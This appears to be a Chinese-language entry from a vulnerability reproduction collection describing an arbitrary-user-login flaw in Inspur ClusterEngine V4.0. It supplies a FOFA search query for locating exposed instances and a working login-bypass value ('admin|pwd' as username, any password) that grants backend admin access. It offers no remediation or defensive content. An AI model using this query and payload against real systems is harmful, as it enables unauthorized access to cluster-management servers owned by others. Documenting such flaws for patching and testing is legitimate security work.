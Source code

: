 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](image/lc-1.png)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](image/ic-7.png)